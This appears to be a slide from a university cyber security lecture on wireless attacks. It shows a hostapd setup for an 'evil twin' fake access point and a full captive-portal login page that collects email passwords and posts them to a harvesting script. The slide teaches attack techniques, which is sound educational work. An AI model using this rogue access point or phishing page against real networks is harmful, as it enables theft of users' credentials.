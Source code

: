 </div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 30 | Author: Milav Dabgar
</div>

---
layout: default
---

# Advanced Wireless Attacks

<div class="grid grid-cols-2 gap-8">

<div>

## 👹 Evil Twin and Rogue Access Points

### 🎭 Evil Twin Setup
```bash
# Create fake access point
sudo hostapd /etc/hostapd/hostapd.conf

# hostapd.conf configuration
interface=wlan1
driver=nl80211
ssid=FreeWiFi
hw_mode=g
channel=6
macaddr_acl=0
auth_algs=1
ignore_broadcast_ssid=0
```

### 🌐 Captive Portal Attack
```html
<!-- Captive portal login page -->
<!DOCTYPE html>
<html>
<head>
    <title>Free WiFi - Login Required</title>
    <style>
        body { font-family: Arial; text-align: center; padding: 50px; }
        .login-form { max-width: 400px; margin: 0 auto; }
        input { width: 100%; padding: 10px; margin: 5px 0; }
        button { background: #4CAF50; color: white; padding: 10px 20px; }
    </style>
</head>
<body>
    <div class="login-form">
        <h2>Welcome to Free WiFi</h2>
        <p>Please login with your email credentials to access internet</p>
        <form action="harvest.php" method="POST">
            <input type="email" name="email" placeholder="Email Address" required>
            <input type="password" name="password" placeholder="Password" required>
            <button type="submit">Connect to Internet</button>
        </form>
    </div>
</body>
</html>
```
